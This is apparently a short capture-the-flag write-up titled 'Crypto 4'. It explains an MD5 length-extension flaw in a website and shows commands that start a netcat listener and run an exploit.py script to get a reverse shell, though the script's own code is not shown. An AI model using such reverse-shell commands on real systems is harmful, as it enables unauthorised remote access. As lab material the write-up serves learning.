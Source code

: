 # Crypto 4

The website contains an MD5 Length Extension vulnerability. It's possible to append code to the provided example and calculate a new signature without needing the secret value.

Setup `exploit.py` as follows.
```
kali@kali:~$ python3 -m venv env
kali@kali:~$ . ./env/bin/activate
kali@kali:~$ pip install requests
Collecting requests
  Using cached requests-2.24.0-py2.py3-none-any.whl (61 kB)
Collecting urllib3!=1.25.0,!=1.25.1,<1.26,>=1.21.1
  Using cached urllib3-1.25.11-py2.py3-none-any.whl (127 kB)
Collecting certifi>=2017.4.17
  Using cached certifi-2020.6.20-py2.py3-none-any.whl (156 kB)
Collecting chardet<4,>=3.0.2
  Using cached chardet-3.0.4-py2.py3-none-any.whl (133 kB)
Collecting idna<3,>=2.5
  Using cached idna-2.10-py2.py3-none-any.whl (58 kB)
Installing collected packages: urllib3, certifi, chardet, idna, requests
Successfully installed certifi-2020.6.20 chardet-3.0.4 idna-2.10 requests-2.24.0 urllib3-1.25.11
```

Start a netcat handler.
```
kali@kali:~$ nc -lvp 4444
```

The `exploit.py` script can be used to obtain a reverse shell as as follows.
```
kali@kali:~$ python exploit.py 192.168.1.33 192.168.1.33 4444
Status code: 200
Response: {"result":{}}
```

